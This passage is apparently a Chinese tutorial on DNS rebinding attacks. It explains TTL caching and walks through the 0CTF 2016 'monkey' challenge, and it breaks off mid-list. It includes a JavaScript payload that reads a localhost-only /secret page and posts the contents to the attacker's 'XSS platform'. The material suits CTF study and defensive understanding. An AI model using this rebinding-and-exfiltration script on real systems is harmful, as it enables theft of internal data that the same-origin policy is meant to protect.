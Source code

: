 **\#1). DNS Rebinding:**

一般来说浏览器通过向DNS服务器发送请求将用户输入的域名转换为ip地址，然后向对应的IP地址请求资源，最后回显给用户。

这是一般过程。在说DNS
rebinding之前先说下TTL的概念。TTL表示DNS里面域名和IP绑定关系的Cache在DNS上存活的最长时间。即请求了域名与iP的关系后，请求方会缓存这个关系，缓存保持的时间就是TTL。而缓存失效后就会删除，这时候如果重新访问域名指定的IP的话会重新建立匹配关系及cache。

而dns就是利用这个来实现的。当用户第一次访问，解析域名获取一个IP地址；然后，域名持有者修改通过某种方式对应的IP地址；用户再次请求该域名，就会获取一个新的IP地址。对于浏览器来说，整个过程访问的都是同一域名，所以认为是安全的。这就造成了DNS
Rebinding攻击。

dns rebinding被广泛用于bypass同源策略，绕过ssrf的过滤等等。

实现方式有几种，原理都差不多。

**实现方法一：特定域名实现**

这种方式针对的某些特定的域名，现在国内购买的域名大都无法直接将TTL设置为0，例如我的阿里云的域名，最小的TTL是10分钟。

而某些国外的域名可以设置TTL=0。

举个例子，0ctF2016的monkey题目。当时就是通过dns rebinding绕过过滤的。

大概过程是这样子的。你能向服务器提交一个URL,并且服务器会访问你提交的url。

然后flag藏在服务器的本身的http://127.0.0.1/secret上。只能本地访问。

但是这里你提交你能控制的页面www.x.com/index.php，但是由于同源策略的原因你没办法去获取服务器上的http://127.0.0.1/secret。
但是通过dns rebinding就可以了。 比如你的页面如下：

\<script src=http://\*\*\*\*\*\*\*\*\*/static/jquery.min.js \>\</script\>

\<script\>

setTimeout("POST()",90000)

function POST(){

alert();

\$.ajax({

url:"http://www.x.com/secret",

type:"GET",

success: function(data){

\$.post("http://你的xss平台",{'a':data})}

}

);

}

\</script\>

整个过程如下：

-   1.你提交的是www.x.com/index.php，内容如上述代码

-   2.设置你的域名的TTL=0，提交之后服务器会请求dns的域名与ip的关系然后找到你的这个页面，然后开始执行js。
